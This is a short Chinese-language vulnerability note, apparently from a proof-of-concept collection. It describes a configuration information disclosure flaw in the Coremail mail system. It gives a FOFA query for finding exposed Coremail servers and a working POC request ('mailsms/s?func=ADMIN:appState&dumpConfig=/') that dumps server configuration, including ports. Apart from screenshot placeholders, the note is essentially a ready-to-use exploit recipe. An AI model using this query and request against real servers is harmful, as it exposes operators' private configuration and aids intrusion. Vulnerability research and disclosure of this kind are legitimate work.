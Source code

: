 # Coremail 配置信息泄露漏洞

##  漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

> [!NOTE]
>
> Coremail 配置信息泄露漏洞

## FOFA

> [!NOTE]
>
> app="Coremail邮件系统"

## 漏洞复现

POC为

```
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

![](image/co-1.png)

## Goby & POC

> [!NOTE]
>
> Coremail configuration information disclosure

![](image/co-2.png)